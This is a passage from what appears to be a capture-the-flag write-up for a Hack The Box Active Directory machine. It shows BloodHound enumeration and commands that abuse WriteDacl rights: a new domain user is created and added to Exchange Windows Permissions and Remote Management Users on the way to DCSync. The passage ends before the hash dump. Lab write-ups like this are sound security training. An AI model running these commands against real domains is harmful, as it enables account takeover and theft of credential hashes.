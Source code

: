 First run bloodhound-python with the following command to collect the data:

```shell
bloodhound-python -c All -u svc-alfresco -p s3rvice -d htb.local -ns 10.129.141.177 --zip
```
Then start BloodHound and upload the .zip file that bloodhound-python created:

```shell
# Start neo4j
sudo neo4j console

# Start bloodhound
sudo bloodhound
```
In BloodHound GUI, search for the user svc-alfresco@htb.local and on Node Info, click on Reachable High Value Targets.

We will see that the user svc-alfresco is part of the Service Accounts group, which is part of the Privileged IT Accounts, which is also part of Account Operators group.

If we click on Account Operators -> go to Node Info -> click on Reachable High Value Targets, we will also see that Account Operators group has GenericAll rights on Exchange Windows Permissions group, which has WriteDacl on the htb.local domain.

With the WriteDacl rights, we could give a user DCSync access rights, allowing us to dump the domain controller hashes.

Now that we collected enough information, we managed to build a clear attack path following these steps:
1. Create a new user.
2. Add the new user to Exchange Windows Permission group.
3. Add the new user to Remote Management Users to have remote access rights.
4. Use the WriteDacl rights to give the new user DCSync rights.

### Creating a new user and giving DCSync rights abusing WriteDacl
First create the new user:

```shell
net user vorkharium Password123! /add /domain
```
Add the user to Exchange Windows Permissions group:

```shell
net group "Exchange Windows Permissions" vorkharium /add
```
Add the user to Remote Management Users:

```shell
net localgroup "Remote Management Users" vorkharium /add
```
Use NetExec to check if the new user got successfully added:

```shell
nxc smb 10.129.141.177 -u vorkharium -p 'Password123!' -d htb.local 
```
Nice! If you got a "+" sign, everything worked as intended!
